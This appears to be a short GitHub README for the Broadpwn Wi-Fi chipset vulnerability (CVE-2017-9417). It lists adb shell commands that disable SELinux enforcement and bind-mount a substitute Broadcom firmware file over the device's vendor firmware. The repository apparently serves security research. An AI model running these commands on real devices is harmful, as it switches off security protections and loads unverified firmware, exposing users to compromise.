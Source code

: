 # Broadpwn
Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  setenforce 0
  
  cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  stop
  
  start

